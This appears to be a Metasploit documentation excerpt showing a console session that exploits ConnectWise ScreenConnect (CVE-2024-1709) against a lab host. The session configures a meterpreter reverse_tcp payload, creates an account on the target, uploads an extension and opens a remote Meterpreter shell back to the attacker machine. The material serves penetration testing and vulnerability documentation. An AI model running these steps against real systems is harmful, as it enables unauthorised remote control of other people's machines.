### Windows In-Memory

```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 0
target => 0
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     eth0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
[*] Created account: qyxzcxgk:SMsGSJCbcTaJZ5f2 (Note: This account will not be deleted by the module)
[*] Uploaded Extension: 81060d26-6fc8-5d1a-0566-b6f0503a8934
[*] Removing Extension: 81060d26-6fc8-5d1a-0566-b6f0503a8934
[*] Sending stage (201798 bytes) to 192.168.86.50
[+] Deleted C:\Program Files (x86)\ScreenConnect\App_Extensions\fuypfhwx.ashx
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:50536) at 2024-02-22 14:42:13 +0000

meterpreter > getuid
```